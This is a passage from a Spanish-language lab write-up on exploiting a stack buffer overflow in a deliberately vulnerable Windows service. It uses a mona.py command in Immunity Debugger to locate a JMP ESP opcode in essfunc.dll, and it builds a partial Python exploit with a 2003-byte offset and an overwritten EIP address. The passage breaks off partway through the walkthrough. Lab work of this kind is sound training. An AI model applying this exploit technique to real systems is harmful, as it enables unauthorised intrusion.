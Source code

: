 Vamos a buscar este **OpCode** en **Immunity Debugger** con la ayuda del módulo **mona.py**.

Para hacer esto, necesitamos el **archivo DLL** que también descargamos, pues ahí buscaremos el **OpCode**.

Usa el siguiente comando:
```bash
!mona find -s "\xFF\xE4" -m essfunc.dll
```

<p align="center">
<img src="/assets/images/THL-writeup-pila/Captura30.png">
</p>

Observa que nos salieron varias direcciones.

Vamos a utilizar cualquiera de esas direcciones, yo utilizare la penúltima, así que cópiala y pégala en el Exploit, en la variable **EIP** que declaramos:
```python
from struct import pack
import socket  

# Variables globales
ip_addr = "IP_maquina_windows"
port = 9999
offset = 2003
before_eip = b"A"*offset
eip = pack("<L", 0x62501203)
```
Esa dirección que copiamos, está en formato **little endian**, ósea que está al revés porque se copió de un sistema de **32 bits (x86)**, por eso la pusimos dentro de la función **pack** e importamos esa librería.

Si entendí bien, esto es lo que realiza el script 5 del repositorio que descargamos.

Con esto listo, vamos a revisar como es el flujo del programa.

Lo haremos por pasos:

* **Paso 1**: Vamos a seguir la dirección que ocupamos en el Exploit, para esto, dale click en el botón **Enter Expression** y luego mete la dirección que escogiste. Cuando le des enter, verifica que sea la misma dirección que escogiste:

<p align="center">
<img src="/assets/images/THL-writeup-pila/Captura31.png">
</p>
